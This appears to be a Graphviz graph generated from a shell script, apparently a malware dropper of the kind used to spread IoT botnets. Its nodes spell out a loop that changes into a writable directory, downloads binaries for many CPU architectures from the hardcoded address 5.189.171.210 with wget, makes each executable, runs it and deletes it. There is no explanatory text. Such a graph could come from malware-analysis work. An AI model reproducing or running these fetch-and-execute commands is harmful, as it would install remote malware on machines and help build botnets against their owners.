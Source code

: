 digraph {
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 10 [label="||,"];
10 [label="wget http://5.189.171.210/marcms "];
10 -> 12 [label=";,"];
12 [label="chmod +x marcms "];
12 -> 14 [label=";,"];
14 [label="./marcms "];
14 -> 16 [label=";,"];
16 [label="rm -rf marcms "];
16 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 28 [label="||,"];
28 [label="wget http://5.189.171.210/marcml "];
28 -> 30 [label=";,"];
30 [label="chmod +x marcml "];
30 -> 32 [label=";,"];
32 [label="./marcml "];
32 -> 34 [label=";,"];
34 [label="rm -rf marcml "];
34 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 46 [label="||,"];
46 [label="wget http://5.189.171.210/marc4t "];
46 -> 48 [label=";,"];
48 [label="chmod +x marc4t "];
48 -> 50 [label=";,"];
50 [label="./marc4t "];
50 -> 52 [label=";,"];
52 [label="rm -rf marc4t "];
52 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 64 [label="||,"];
64 [label="wget http://5.189.171.210/marc4l "];
64 -> 66 [label=";,"];
66 [label="chmod +x marc4l "];
66 -> 68 [label=";,"];
68 [label="./marc4l "];
68 -> 70 [label=";,"];
70 [label="rm -rf marc4l "];
70 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 82 [label="||,"];
82 [label="wget http://5.189.171.210/marc5l "];
82 -> 84 [label=";,"];
84 [label="chmod +x marc5l "];
84 -> 86 [label=";,"];
86 [label="./marc5l "];
86 -> 88 [label=";,"];
88 [label="rm -rf marc5l "];
88 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 100 [label="||,"];
100 [label="wget http://5.189.171.210/marc6l "];
100 -> 102 [label=";,"];
102 [label="chmod +x marc6l "];
102 -> 104 [label=";,"];
104 [label="./marc6l "];
104 -> 106 [label=";,"];
106 [label="rm -rf marc6l "];
106 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 118 [label="||,"];
118 [label="wget http://5.189.171.210/marc7l "];
118 -> 120 [label=";,"];
120 [label="chmod +x marc7l "];
120 -> 122 [label=";,"];
122 [label="./marc7l "];
122 -> 124 [label=";,"];
124 [label="rm -rf marc7l "];
124 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 136 [label="||,"];
136 [label="wget http://5.189.171.210/marcsh "];
136 -> 138 [label=";,"];
138 [label="chmod +x marcsh "];
138 -> 140 [label=";,"];
140 [label="./marcsh "];
140 -> 142 [label=";,"];
142 [label="rm -rf marcsh "];
142 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 154 [label="||,"];
154 [label="wget http://5.189.171.210/marcpc "];
154 -> 156 [label=";,"];
156 [label="chmod +x marcpc "];
156 -> 158 [label=";,"];
158 [label="./marcpc "];
158 -> 160 [label=";,"];
160 [label="rm -rf marcpc "];
160 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 172 [label="||,"];
172 [label="wget http://5.189.171.210/marc440 "];
172 -> 174 [label=";,"];
174 [label="chmod +x marc440 "];
174 -> 176 [label=";,"];
176 [label="./marc440 "];
176 -> 178 [label=";,"];
178 [label="rm -rf marc440 "];
178 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 190 [label="||,"];
190 [label="wget http://5.189.171.210/marcm68 "];
190 -> 192 [label=";,"];
192 [label="chmod +x marcm68 "];
192 -> 194 [label=";,"];
194 [label="./marcm68 "];
194 -> 196 [label=";,"];
196 [label="rm -rf marcm68 "];
196 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 208 [label="||,"];
208 [label="wget http://5.189.171.210/marcsprc "];
208 -> 210 [label=";,"];
210 [label="chmod +x marcsprc "];
210 -> 212 [label=";,"];
212 [label="./marcsprc "];
212 -> 214 [label=";,"];
214 [label="rm -rf marcsprc "];
214 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 226 [label="||,"];
226 [label="wget http://5.189.171.210/marc32 "];
226 -> 228 [label=";,"];
228 [label="chmod +x marc32 "];
228 -> 230 [label=";,"];
230 [label="./marc32 "];
230 -> 232 [label=";,"];
232 [label="rm -rf marc32 "];
232 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 244 [label="||,"];
244 [label="wget http://5.189.171.210/marc38 "];
244 -> 246 [label=";,"];
246 [label="chmod +x marc38 "];
246 -> 248 [label=";,"];
248 [label="./marc38 "];
248 -> 250 [label=";,"];
250 [label="rm -rf marc38 "];
250 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 262 [label="||,"];
262 [label="wget http://5.189.171.210/marc48 "];
262 -> 264 [label=";,"];
264 [label="chmod +x marc48 "];
264 -> 266 [label=";,"];
266 [label="./marc48 "];
266 -> 268 [label=";,"];
268 [label="rm -rf marc48 "];
268 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 280 [label="||,"];
280 [label="wget http://5.189.171.210/marc58 "];
280 -> 282 [label=";,"];
282 [label="chmod +x marc58 "];
282 -> 284 [label=";,"];
284 [label="./marc58 "];
284 -> 286 [label=";,"];
286 [label="rm -rf marc58 "];
286 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 298 [label="||,"];
298 [label="wget http://5.189.171.210/marc64 "];
298 -> 300 [label=";,"];
300 [label="chmod +x marc64 "];
300 -> 302 [label=";,"];
302 [label="./marc64 "];
302 -> 304 [label=";,"];
304 [label="rm -rf marc64 "];
304 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/run "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 316 [label="||,"];
316 [label="wget http://5.189.171.210/marc68 "];
316 -> 318 [label=";,"];
318 [label="chmod +x marc68 "];
318 -> 320 [label=";,"];
320 [label="./marc68 "];
320 -> 322 [label=";,"];
322 [label="rm -rf marc68 "];
322 -> 323 [label=";,"];
}
